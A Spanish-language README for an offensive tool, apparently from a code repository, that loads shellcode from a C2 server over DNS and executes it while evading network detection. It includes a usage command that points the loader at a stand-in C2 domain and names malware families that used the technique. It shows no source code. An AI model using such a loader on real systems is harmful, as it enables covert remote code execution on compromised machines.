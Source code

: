 # DNSShellcodeLoader

DNSShellcodeLoader es una herramienta diseñada para cargar shellcode de forma remota a través de consultas DNS. Esta herramienta puede ser útil en escenarios de prueba de penetración, investigación de seguridad y desarrollo de exploits.

Para el uso de esta herramienta tendras que tener conocimientos avanzados sobre programación en C#.

## Descripción

La carga remota de shellcode a través de consultas DNS proporciona un método discreto y evasivo para obtener y ejecutar código malicioso en sistemas comprometidos. Esta técnica aprovecha el tráfico DNS saliente, que es común y a menudo pasa desapercibido por los sistemas de seguridad de red.

DNSShellcodeLoader simplifica el proceso de descarga y ejecución de shellcode, permitiendo a los usuarios especificar un nombre de dominio del servidor C2 y el nombre del archivo de shellcode. La herramienta generará una URL ofuscada que se utilizará para la descarga de la shellcode. Además, DNSShellcodeLoader incluye técnicas de seguridad para validar la integridad de la shellcode descargada y manejar errores de descarga de manera robusta.

## Uso

Para usar DNSShellcodeLoader, sigue estos pasos:

1. Ejecuta la herramienta proporcionando el nombre de dominio del servidor C2 y el nombre del archivo de shellcode como argumentos de línea de comandos.
    ```
    DNSShellcodeLoader.exe example.com shellcode.bin
    ```

2. La herramienta generará una URL ofuscada para la descarga de la shellcode y realizará la descarga desde el servidor remoto.

3. Una vez descargada la shellcode, se validará su integridad y se ejecutará en el sistema local.


Algunos malware conocidos han utilizado técnicas de descarga de shellcode a través de consultas DNS y técnicas de evasión y polimorfismo para eludir la detección y llevar a cabo sus actividades maliciosas. Algunos ejemplos incluyen:

DNSMessenger: Este malware, descubierto en 2017, utilizaba consultas DNS para comunicarse con servidores de comando y control (C2) y descargar payloads maliciosos. Esta técnica le permitía evadir la detección y el bloqueo por parte de los sistemas de seguridad que no inspeccionaban el tráfico DNS de manera adecuada.

Emotet: Emotet es un troyano bancario y un dropper de malware que ha utilizado técnicas de evasión avanzadas para evitar la detección. Entre estas técnicas se incluyen el uso de cargas útiles cifradas, el polimorfismo para cambiar constantemente su firma y la utilización de dominios generados de forma aleatoria para descargar componentes maliciosos a través de consultas DNS.

TrickBot: TrickBot es un troyano bancario que ha sido utilizado en ataques dirigidos a instituciones financieras y organizaciones empresariales. Utiliza técnicas avanzadas de evasión, incluyendo el polimorfismo para modificar su código y el uso de dominios generados de manera aleatoria para la comunicación con sus servidores C2 a través de consultas DNS.

Zloader: Zloader es un troyano bancario que utiliza técnicas de evasión y polimorfismo para evitar la detección por parte de los sistemas de seguridad. Utiliza consultas DNS para la comunicación con sus servidores C2 y descarga payloads maliciosos, lo que le permite eludir los controles de seguridad que no inspeccionan el tráfico DNS de manera adecuada.
**Nota:** Asegúrate de tener permiso para realizar pruebas de penetración y ejecutar código malicioso en sistemas antes de utilizar esta herramienta en un entorno de producción.

## Aviso legal

Esta herramienta se proporciona únicamente con fines educativos y de investigación. El uso indebido de DNSShellcodeLoader puede ser ilegal y está estrictamente prohibido. El autor y los colaboradores no se hacen responsables del uso indebido de esta herramienta.


